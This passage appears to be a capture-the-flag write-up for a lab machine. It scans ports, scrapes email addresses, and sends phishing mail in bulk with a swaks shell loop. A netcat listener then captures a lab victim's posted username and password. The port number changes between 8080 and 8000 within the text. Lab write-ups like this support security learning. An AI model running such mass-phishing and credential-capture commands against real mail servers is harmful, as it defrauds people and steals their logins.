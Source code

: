 There is a few open ports:

* 21 FTP
* 22 SSH
* 25 SMTPD (email)
* 80 Nginx (web)
* 143 imap (mail)
* 993 imap/ssl (mail)
* 8080 nginx (mail)

## Web

When browsing the website we notice a list of email addresses. We copy them to a
file an use `cut -f 4` to get a proper list with the email only.

Nothing else on the website seems of interest.

## Phishing

As the port 25 is open, we can send email to the server.
Our phishing email will contain a simple
link to our machine `http://10.10.14.11:8080/test`:

    :::text
    Hey try that:

    http://10.10.14.11:8000/test

    HF

We use [swaks](https://github.com/jetmore/swaks)
in order to automatically send our phishing email:

    :::text
    while read l; do swaks --to $l --server 10.10.10.197 --body email; done <emails

We run a `netcat` listener on port 8080 in order to see the incoming requests and
got some POST request containing a username and a password.

    :::text
    nc -l -p 8000
    POST /test%0D HTTP/1.1
    Host: 10.10.14.11:8000
    User-Agent: python-requests/2.23.0
    Accept-Encoding: gzip, deflate
    Accept: */*
    Connection: keep-alive
    Content-Length: 185
    Content-Type: application/x-www-form-urlencoded

    firstName=Paul&lastName=Byrd&email=paulbyrd%40sneakymailer.htb&password=%5E%28%23J%40SkFv2%5B%25KhIxKk%28Ju%60hqcHl%3C%3AHt&rpassword=%5E%28%23J%40SkFv2%5B%25KhIxKk%28Ju%60hqcHl%3C%3AHt

## Evolution
